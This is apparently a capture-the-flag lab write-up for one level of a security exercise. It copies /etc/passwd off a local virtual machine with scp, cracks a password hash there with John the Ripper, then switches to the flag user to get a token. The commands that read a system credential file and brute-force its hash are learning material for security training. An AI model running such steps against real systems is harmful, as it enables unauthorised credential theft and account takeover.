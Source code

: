 # First step

We have a hash in file /etc/passwd.
Use SCP to get file on local.
```shell
$> scp -P 4242 scp://level01@192.168.64.2/../../../etc/passwd ./myrepo/
```

# Second step

Using john the ripper to brute force the hash.
```shell
$> john passwd
[...]
abcdefg          (flag01)
[...]

$> su flag01
Don't forget to launch getflag !

$> getflag
Check flag.Here is your token : f2av5il02puano7naaf6adaaf
```